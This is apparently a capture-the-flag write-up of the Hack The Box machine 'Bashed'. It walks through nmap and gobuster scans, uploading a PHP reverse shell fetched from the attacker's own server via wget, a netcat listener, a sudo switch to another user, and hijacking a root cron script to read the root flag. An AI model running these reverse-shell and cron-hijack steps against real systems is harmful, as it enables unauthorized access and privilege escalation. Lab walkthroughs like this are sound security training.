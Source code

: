 # BASHED

## ENUMERATION

Running the nmap scan we find only one port open

```
nmap 10.10.10.68 -p 80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 04:59 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Finding the http port open I ran gobuster to find directories 

```
===============================================================
2021/08/03 05:04:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

Opening the /dev directory that we found through gobuster we find a interactive web shell 

## SHELL

Running the ```ls -la``` command in the ```/var/www/html``` directory we find that the ```uploads``` directory is the only one in which our user i.e. ```www-data``` has write permission. So that's where we can upload php reverse shell.

Downloading php reverse shell from <http://pentestmonkey.net/tools/web-shells/php-reverse-shell> on my machine and changing the ip to our system tunnel ip and the port to 4444

Running the command ```python -m SimpleHTTPServer``` to start a http server on our machine in the same directory as the php reverse shell we need to upload

![](https://github.com/Leo-2807/Writeups/blob/main/images/hackthebox/bshed2.png)

Now we run the command ```wget http://10.10.14.36:8000/php-reverse-shell.php``` to download the reverse shell on the machine

![](https://github.com/Leo-2807/Writeups/blob/main/images/hackthebox/bashed1.png)

Starting nc listerner ```nv -lvnp 4444``` on our system and then opening the url <http.//10.10.10.68/uploads/php-reverse-shell.php>

![](https://github.com/Leo-2807/Writeups/blob/main/images/hackthebox/bashed3.png)	

We get a shell which we stabilize with the command ```python -c 'import pty; pty.spawn("/bin/bash")'```

## WWW-DATA --> USER

Using the command ```sudo -l``` 

This means that we have permissions to become user scriptmanager without password

```
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ cd /home
cd /home
scriptmanager@bashed:/home$ ls 
ls 
arrexel  scriptmanager
scriptmanager@bashed:/home$ cd arrexel
cd arrexel
scriptmanager@bashed:/home/arrexel$ ls
ls
user.txt
scriptmanager@bashed:/home/arrexel$ cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```
And we have our user flag

## USER --> ROOT

Using command ```ls -la``` in the / diectory we find only one directory writabble to out user ```scripts```
```
scriptmanager@bashed:/$ ls -la
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Aug  3 01:57 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 115 root          root              0 Aug  3 01:57 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Aug  3 01:58 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Aug  3 02:57 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Aug  3 02:16 sys
drwxrwxrwt  10 root          root           4096 Aug  3 03:03 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```
In the scripts directory we find two files 
```
scriptmanager@bashed:/$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

using ```ls -la ``` command we see that the time of last execution of test.py is the current time which lead me to try it again after a few minutes and the time was again same as the current time 
This means that the script is being executed by crontab running in the background 

We use this to read root.txt
```
scriptmanager@bashed:/scripts$ echo 'import os' > test.py
echo 'import os' > test.py
scriptmanager@bashed:/scripts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py
<ts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py     
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
import os
os.system("cat /root/root.txt > /tmp/readme.txt")
scriptmanager@bashed:/scripts$ cd /tmp
cd /tmp
scriptmanager@bashed:/tmp$ ls
ls
VMwareDnD
readme.txt
systemd-private-fb9d9649303741a0b3e5ee96e5c01d4d-systemd-timesyncd.service-8VKUb9
vmware-root
scriptmanager@bashed:/tmp$ cat readme.txt
```
And we have out root flag
